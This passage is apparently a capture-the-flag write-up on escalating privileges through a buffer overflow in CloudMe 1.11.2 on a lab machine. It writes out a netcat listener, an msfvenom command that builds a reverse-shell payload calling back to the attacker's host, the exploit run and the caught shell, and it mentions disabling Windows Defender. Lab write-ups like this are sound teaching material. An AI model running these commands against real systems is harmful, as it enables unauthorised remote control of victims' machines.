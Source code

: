 ## Privilege escalation (BOF)

CloudMe version `1.11.2` is vulnerable to a buffer overflow, which allows an
attacker to execute commands in the context of the CloudMe service.

### Preparation

I'm going to use the given PoC Python script to exploit this BOF.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll generate a shellcode with `msfvenom`.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9002" -f "python" -b "\x00\x0A\x0D" -v "payload"
```

I'll replace the PoC script payload with the generated shellcode, and save I'll
save the PoC as `exploit.py`.

### Exploitation

Let's exploit this vulnerability to elevate our privileges.

```sh
❯ python3 "/workspace/exploit.py"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.198] 49698
<SNIP>
C:\Windows\system32>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## System enumeration

If we run `whoami`, we see that we're `Administrator`.

For the sake of completeness, I'll disable Windows Defender and I'll use
[Juicy Potato](https://github.com/ohpe/juicy-potato) to get
`NT AUTHORITY\SYSTEM`.

### Flags

As usual, we can find the root flag in our home folder.
